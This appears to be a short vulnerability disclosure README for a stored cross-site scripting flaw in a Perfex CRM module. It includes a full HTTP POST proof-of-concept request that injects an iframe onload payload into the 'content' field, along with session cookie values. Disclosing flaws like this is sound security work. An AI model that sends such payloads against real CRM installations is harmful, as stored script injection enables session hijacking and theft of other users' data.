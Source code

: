 # File-Sharing-module-for-Perfex-CRM-XSS

A Stored Cross-Site Scripting (XSS) vulnerability was discovered in the File Sharing module of Perfex CRM. The vulnerability exists in the `&content` parameter within the Discussion section. By injecting malicious scripts into this parameter, an attacker can store the script within the application. When the content is viewed by other users, the malicious script is executed in their browsers, potentially leading to the compromise of user data, session hijacking, or other malicious actions.

```
POST /admin/purchase/add_comment HTTP/2
Host: localhost
Cookie: _ga=GA1.1.723218010.1723958795; csrf_cookie_name=54dd532b592d3e37eb00c83fea787332; sp_session=48fef5to7od8tvb21ak5q2i34dp9vq59; _ga_2TQZW5L3GV=GS1.1.1723972977.4.1.1723972986.0.0.0
Content-Length: 89
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://perfexmodules.gtssolution.site
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://perfexmodules.gtssolution.site/admin/purchase/purchase_order/4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

csrf_token_name=54dd532b592d3e37eb00c83fea787332&content=<iframe/onload=confirm("XSS")>&rel_id=4&rel_type=pur_order
```

